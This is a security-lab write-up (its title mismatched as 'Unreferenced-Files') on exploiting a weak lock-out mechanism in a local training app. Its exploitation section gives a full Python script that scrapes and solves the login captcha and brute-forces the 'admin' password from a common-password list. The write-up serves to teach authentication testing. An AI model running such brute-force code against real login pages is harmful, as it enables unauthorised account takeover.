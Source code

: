 # KBID xxx - Unreferenced-Files

## Running the app

```
$ sudo docker pull blabla1337/weak-lock-out-mechanism
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/weak-lock-out-mechanism
```

{% hint style="success" %}

{% endhint %}

Now that the app is running let's go hacking!

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practice "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrast Security](../../.gitbook/assets/contrast-security-logo.jpg)

## Reconnaissance

We need to test how the application prevents brute force attacks. After registering a new user, we can observe that the application uses a captcha to deter such attacks.

![Login page](../../.gitbook/assets/weak-lock-out-mechanism-captcha.png)

If we attempt to log in with an incorrect password multiple times, we can observe that the application only uses a captcha to prevent brute force attacks.

## Exploitation

One of the most common usernames is "admin", and we can use a password dictionary or list to try to guess the password. In this case, we will use the [10-million-password-list-top-1000.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt) from the SecLists repository.

The application uses the endpoint `/login` to authenticate the user. It expects the following parameters: username, password, and captcha, as follows:

```json
{
  "username": "admin",
  "password": "password",
  "captcha": "captcha"
}
```

When logging in fails, the application requests a new captcha from the endpoint `/captcha`. This endpoint returns two numbers and an operator.

```json
{
  "number1": 1,
  "number2": 1,
  "operator": "+"
}
```

We can use the endpoint `/captcha` to solve the captcha and login to the application using the `/login` endpoint. However, in this case, let's try to get the captcha from the HTML source code and use brute force to access the login process.

```python
from urllib.request import urlopen
from requests import post
import re

url = "http://localhost:5000/login/"


def get_content_from_class(html, class_name):
    pattern = f'<div class="{class_name}">.*?</div>'
    match_results = re.search(pattern, html, re.IGNORECASE)
    content = match_results.group()
    content = re.sub("<.*?>", "", content)  # Remove HTML tags
    return content


def login(password):
    page = urlopen(url)

    if page.getcode() != 200:
        print("Error")
        return

    html_bytes = page.read()
    html = html_bytes.decode("utf-8")

    n1 = get_content_from_class(html, "n1")
    n2 = get_content_from_class(html, "n2")
    op = get_content_from_class(html, "op")

    captcha = eval(n1 + op + n2)

    login_body = {
        "username": "admin",
        "password": password,
        "captcha": captcha
    }

    res = post(url, json=login_body)
    return res.json()



with open("passwords.txt", "r") as f:
    passwords = f.readlines()
    # remove \n
    passwords = [password.strip() for password in passwords]
    # loop through passwords
    print("Trying passwords...")
    found = False
    for password in passwords:
        res = None
        while True:
            try:
                res = login(password)
            except:
                continue
            break
        if "message" in res:
            print("Password found: ", password)
            found = True
            break
    if not found:
        print("Password not found")
```

We can see that the password is "qweasdzxc" one of the most common passwords.

> Note: We can use the `/captcha` endpoint to solve the captcha and log in to the application using the `/login` endpoint. As an example, we can get the captcha information from the HTML source. Alternatively, we can use the Intruder tool from Burp Suite.

## Additional sources

[owasp.org | Testing for Weak Lock Out Mechanism](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/04-Authentication_Testing/03-Testing_for_Weak_Lock_Out_Mechanism)
